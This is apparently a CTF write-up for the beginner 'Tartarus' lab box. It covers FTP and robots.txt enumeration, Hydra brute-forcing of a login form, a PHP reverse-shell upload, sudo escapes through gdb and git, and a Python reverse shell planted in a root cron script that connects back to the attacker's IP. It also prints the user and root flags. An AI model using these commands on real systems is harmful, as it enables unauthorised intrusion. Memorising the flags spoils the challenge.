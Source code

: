 > Astraeus | October 6, 2020

# Tartarus

>This is a beginner box based on simple enumeration of services and basic privilege escalation techniques. Based Jake
-----------------------------

# [Task 1]

> User and Root Flag

Anonymous FTP allowed:

```
cd ... 
cd ...

get yougotgoodeyes.txt
```
> /sUp3r-s3cr3t

```
Contains login page
```

Robots.txt
>User-Agent: *
>Disallow : /admin-dir
>I told d4rckh we should hide our things deep.

/admin-dir
>credentials.txt
>userid

```
hydra -L userid -P credentials.txt 10.10.157.219 http-form-post '/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect username!'
```

```
hydra -l enox -P credentials.txt 10.10.157.219 http-form-post '/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect password!'
```
> [80][http-post-form] host: 10.10.157.219   login: enox   password: P@ssword1234

Upload your php reverse shell, find in:
> /sUp3r-s3cr3t/images/uploads/

In shell:
```
sudo -l
```
>(thirtytwo) NOPASSWD: /var/www/gdb

[GTFOBins GDB](https://gtfobins.github.io/gtfobins/gdb/)

```
sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit
```

As thirtytwo user:
```
sudo -l
```

>(d4rckh) NOPASSWD: /usr/bin/git

[GTFOBins Git](https://gtfobins.github.io/gtfobins/git/#sudo)

```
sudo -u d4rckh /usr/bin/git -p help config
!/bin/sh
```

```
cat /etc/crontab

# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*/2 *   * * *   root    python /home/d4rckh/cleanup.py
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

```cleanup.py```
```-rwxrwxrwx 1 root   root    191 Oct  6 23:40 cleanup.py```


```python
cat cleanup.py

import os, socket
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("tun0 IP",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.system("/bin/sh -i")
```

## 1. User flag

```
0f7dbb2243e692e3ad222bc4eff8521f
```

## 2. Root flag

```
7e055812184a5fa5109d5db5c7eda7cd
```
